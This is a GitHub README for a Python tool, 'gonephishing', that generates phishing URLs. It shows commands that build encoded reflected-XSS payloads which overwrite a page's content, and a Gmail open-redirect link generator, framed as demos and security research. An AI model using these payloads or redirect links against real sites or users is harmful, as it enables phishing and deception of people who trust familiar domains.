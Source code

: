 # gonephishing


Generate phishing urls for demos and fun (serious security research).

### clone

git clone --recurse-submodules https://github.com/vlp443/gonephishing.git

### Requires

pip3 install htmlmin

### Usage

#### Reflected XSS
This is all very new so treat it gently. It may not have long to go (chrome browser security blocks the examples given Firefox is ok IE/Edge probably okay not tested yet)

 Generate a minified version of an html file and optionally encode it then inject it into some javascript/html and urlencode the entire string.  
 
 The javascript must contain a %s field to mark location to inject html into.  
 
 Current supported encoders are b64 (base64) and hex ('\xAA\xBB' etc).


Create a file called test.html (the @ sign below signifies that you are using a file rather than direct input)
~~~
python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("%s")</script>'  --encoders --encoders b64

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=("%s")</script>'  --encoders --encoders hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("%s")</script>'  --encoders --encoders b64,hex 
~~~
Paste the generated link into the vulnerable request parameter and the page should be overwritten with the supplied html.


#### GMAIL Redirect

~~~
python3 ./gonephishing.py --gmail  --dest https://cutecatsinhats.com/ 
~~~


### About
The OWASP top ten 2013 included A10-Unvalidated Redirects and Forwards with the following description:
Web applications frequently redirect and forward users to other pages and websites, and use untrusted data to determine the destination pages. Without proper validation, attackers can redirect victims to phishing or malware sites, or use forwards to access unauthorized pages. 

This item does not appear in the top ten 2017

google.com has over 40 unsecured redirects  This is unlikely to change as google do not see it as a vulnerability. https://sites.google.com/site/bughunteruniversity/nonvuln/open-redirect


I would expect that the majority of users would trust a site if they were redirected via mail server domain that they were logged into.  This would then cause the user to be more likely to accept a squatted domain of the type described in the quiz below due to the fact that they trust the url via which they were redirected.
 https://phishingquiz.withgoogle.com/



